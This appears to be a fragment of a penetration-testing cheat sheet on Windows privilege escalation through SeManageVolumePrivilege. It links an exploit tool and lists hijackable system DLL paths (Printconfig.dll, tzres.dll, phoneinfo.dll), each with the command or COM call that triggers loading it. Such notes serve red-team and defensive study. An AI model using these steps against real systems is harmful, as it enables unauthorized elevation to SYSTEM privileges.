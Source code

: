 [SeManageVolumeExploit.exe](https://github.com/CsEnox/SeManageVolumeExploit)

### Printconfig.dll
```
C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll

$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
### tzres.dll
```
C:\Windows\System32\wbem\tzres.dll

systeminfo
```

### [phoneinfo.dll](https://github.com/sailay1996/WerTrigger?tab=readme-ov-file)
```
C:\Windows\System32\phoneinfo.dll
C:\Windows\System32\Report.wer
C:\Windows\System32\WerTrigger.exe

WerTrigger.exe
```